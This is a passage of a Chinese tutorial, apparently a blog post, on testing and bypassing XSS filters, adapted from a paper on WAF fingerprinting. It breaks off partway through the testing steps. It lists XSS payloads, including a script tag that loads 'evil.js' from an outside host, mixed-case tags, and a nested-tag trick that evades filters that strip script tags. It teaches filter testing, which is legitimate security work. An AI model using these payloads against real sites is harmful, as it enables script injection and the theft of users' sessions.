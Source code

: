# Bypass xss过滤的测试方法

0x00 背景
-------

* * *

本文来自于《Modern Web Application Firewalls Fingerprinting and Bypassing XSS Filters》其中的bypass xss过滤的部分，前面有根据WAF特征确定是哪个WAF的测试方法给略过了，重点来看一下后面绕xss的一些基本的测试流程，虽说是绕WAF的，但这里还是根据WAF中的正则缺陷来绕过测试方法，并不是协议上问题，所以呢，基本可以通用于其他xss过滤的场景。方便新手们比较快速的了解到测试xss的一些基本的方法。

0x01 Bypassing黑名单
-----------------

* * *

大多数的场所是用的黑名单来做过滤器的，有三种方式绕过黑名单的测试：

```
1、暴力测试（输入大量的payload，看返回结果）
2、根据正则推算
3、利用浏览器bug

```

### 初步测试

1)尝试插入比较正常的HTML标签，例如：`<b>，<i>，<u>`来看一下返回页面的情况是怎样的，是否被HTML编码了，或者标签被过滤了。

2)尝试插入不闭合的标签，例如：`<b，<i，<u，<marquee`然后看一下返回响应，是否对开放的标签也有过滤。

3)然后测试几个XSS的payload，基本所有的xss过滤器都会进行过滤的：

```
<script>alert(1);</script>
<script>prompt(1);</script>
<script>confirm(1);</script>
<scriptsrc="http://rhainfosec.com/evil.js">

```

看返回响应，是过滤的全部，还是只过滤了部分，是否还留下了`alert,prompt,confirm`字符，再尝试大小写的组合：

```
<scRiPt>alert(1);</scrIPt>

```

4)如果过滤器仅仅是把`<script>`和`</script>`标签过滤掉，那么可以用

```
<scr<script>ipt>alert(1)</scr<script>ipt>

```

的方式来绕过，这样当`<script>`标签被过滤掉，剩下的组合起来刚好形成一个完整的payload。

5)用`<a href`标签来测试，看返回响应
